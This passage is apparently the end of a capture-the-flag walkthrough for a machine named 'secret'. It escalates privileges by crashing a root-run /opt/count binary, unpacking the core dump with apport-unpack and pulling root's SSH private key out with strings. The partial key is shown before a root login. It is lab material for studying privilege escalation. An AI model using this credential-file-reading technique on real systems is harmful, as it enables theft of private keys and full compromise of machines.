 It seems that because we are running the `count` binary as `root` and we crash the program while reading the file, the file contents is still in memory. When the `CoreDump` file is created, the contents of memory is still present.

We can repeat these steps to read the `id_rsa` file of `root`.&#x20;

```
dasith@secret:/dev/shm/core$ /opt/count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 /opt/count
dasith@secret:/dev/shm/core$ pidof count
1581
dasith@secret:/dev/shm/core$ kill -SIGSEGV 1581
dasith@secret:/dev/shm/core$ fg
/opt/count
Segmentation fault (core dumped)
dasith@secret:/dev/shm/core$ mv /var/crash/_opt_count.1000.crash .
dasith@secret:/dev/shm/core$ apport-unpack _opt_count.1000.crash dump
dasith@secret:/dev/shm/core$ cd dump
dasith@secret:/dev/shm/core/dump$ strings CoreDump
<TRUNCATED>
/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<TRUNCATED>
```

With this private key, we can `ssh` in as `root`.

<figure><img src="../../../.gitbook/assets/image (2940).png" alt=""><figcaption></figcaption></figure>

Rooted!
